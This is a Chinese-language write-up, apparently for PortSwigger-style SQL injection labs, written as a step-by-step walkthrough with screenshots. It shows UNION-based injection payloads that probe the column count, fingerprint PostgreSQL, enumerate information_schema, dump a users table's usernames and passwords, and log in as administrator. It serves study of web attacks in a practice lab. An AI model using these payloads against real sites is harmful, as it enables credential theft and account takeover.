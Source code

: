![](https://cdn.nlark.com/yuque/0/2025/png/43311313/1758081512769-ff4423b4-a965-4783-b26a-e8013613fcae.png)

用`?category=Lifestyle' union select 1,2--+`发现两列都会回显：

![](https://cdn.nlark.com/yuque/0/2025/png/43311313/1758081600134-dc455227-a6aa-4e99-a8f1-2067d2bbd64c.png)

用`?category=Lifestyle' union select database(),version()--+`回显数据库信息：

![](https://cdn.nlark.com/yuque/0/2025/png/43311313/1758081689333-1abf6e16-0e2a-46a2-847e-99692d356522.png)

成功注入。

## <font style="color:rgb(0, 19, 80);">SQL injection attack, listing the database contents on non-Oracle databases</font>
进入靶场，发现环境是前面几类的结合，既有分类又有登录，题目提示我们要检索用户表的所有信息，并最终以`administrator`的身份登录。

用`order by`探测到当前有2列，题目有说到这是non-Oracle数据库，构造`?category=Pets' union select 1,2--+`报错，换成`?category=Pets' union select '1','2'--+`，两列都被回显：

![](https://cdn.nlark.com/yuque/0/2025/png/43311313/1758090171145-2ef111cd-043f-43a3-8425-f7ada2a46d11.png)

构造`?category=Pets' union select @@version,null--+`（查询MySQL和MSSQL）报错，换成`?category=Pets' union select version(),null--+`（查询PostgreSQL）：

![](https://cdn.nlark.com/yuque/0/2025/png/43311313/1758090630015-6280687f-e5a0-4159-a494-5c166cb91cbc.png)

确实是PostgreSQL，那么接下来就按照对应的语法注出数据库的数据。

构造`?category=Pets' union select current_database(),current_schema()--+`：

![](https://cdn.nlark.com/yuque/0/2025/png/43311313/1758091610283-aaad919a-c473-4ba3-bdff-3b574f344ec5.png)

当前数据库是`academy_labs`，当前schema是`public`，构造`?category=Pets' union select table_name, null from information_schema.tables where table_schema='public' and table_catalog='academy_labs'--+`：

![](https://cdn.nlark.com/yuque/0/2025/png/43311313/1758092064669-d8925422-e37c-4fee-a57c-2815cbeb9696.png)

查到当前库有`products`和`users_unptbv`两个表，用户信息应该在后者里，继续构造`?category=Pets' union select column_name, null from information_schema.columns where table_schema='public' and table_catalog='academy_labs' and table_name='users_unptbv'--+`：

![](https://cdn.nlark.com/yuque/0/2025/png/43311313/1758092243092-8ea461a8-bfcf-4555-aa18-6d073d2d45d2.png)

查到当前表的三个字段是`email`、`password_bwkpzu`、`username_zxwqwx`，接下来要查出后面两个字段的内容，继续构造`?category=Pets' union select password_bwkpzu, username_zxwqwx from public.users_unptbv--+`：

![](https://cdn.nlark.com/yuque/0/2025/png/43311313/1758092409159-c97b872a-403e-49db-910c-e61079eb9c0b.png)

拿到所有账号密码，以administrator登录：

![](https://cdn.nlark.com/yuque/0/2025/png/43311313/1758092469037-9751ffd7-83f7-4c8a-b3ef-128b2cc7b28d.png)

完成。
